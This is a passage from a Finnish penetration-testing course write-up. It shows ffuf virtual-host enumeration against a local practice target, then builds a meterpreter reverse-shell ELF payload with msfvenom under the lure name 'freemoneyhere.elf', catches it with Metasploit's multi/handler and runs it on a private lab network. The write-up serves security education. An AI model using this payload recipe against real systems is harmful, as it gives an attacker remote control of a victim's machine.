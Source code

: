 ### Subdomains - Virtual Host Enumeration

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/e51781b3-e1a9-414b-a498-873dc0d2fb63)

Komento:

    $ ffuf -w ~/wordlists/subdomains.txt -H "Host: FUZZ.ffuf.me" -u http://localhost -fs 1495

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/25927c81-1640-461a-9173-dbbaefe31a36)

## e) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell).

Tehdään `msfvenom` työkalulla payload joka soittaa kotiin komennolla

    $ sudo msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.56.103 lport=1234 -f elf > freemoneyhere.elf

`-p` parametrilla valitaan `payloadi` `lhost` ja `lport` laitetaan tietokoneen portti ja ip johon payloadi ottaa yhteyden `-f` parametrilla valitaan tiedosto formaatti eli tässä tapauksessa `elf` ja `> freemoneyhere.elf` kertoo että minkä niminen tiedostosta tulee

sitten komennolla `$ chmod +x freemoneyhere.elf` tehdään tiedostosta käynnistettävä

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/f2ffd842-5b22-4a97-bcdf-48257d631437)

sitten avataan `metasploit` komennolla

    $ sudo msfconsole

Käytetään `metasploitissa` `multi/handler` työkalua, joka kuuntelee tulevia yhteyksiä

    $ use exploit/multi/handler

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/f5433bb1-19eb-473d-bd28-cd60251f7fe4)

Laitetaan kaikki samat tiedot `lport` ja `lhost` kohtaan kuin laitoimme payloadiin

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/1b375f60-952a-4209-b757-372716f216d7)

Määritellään myös sama payloadi

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/cfba341d-eca4-40e4-83f3-fb935db85048)

Sitten aloiteen kuuntelu komennolla

    $ exploit

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/0c59274a-ba30-4b1a-a24d-37d043433760)

Toisessa terminaalissa käynnistetään tekemämme payloadi komennolla

    $ ./freemoneyhere.elf

![image](https://github.com/EetHeet/Tunkeutumistestaus/assets/164857391/c01ebbf4-77f9-47c7-81b4-b42e5ce81a61)

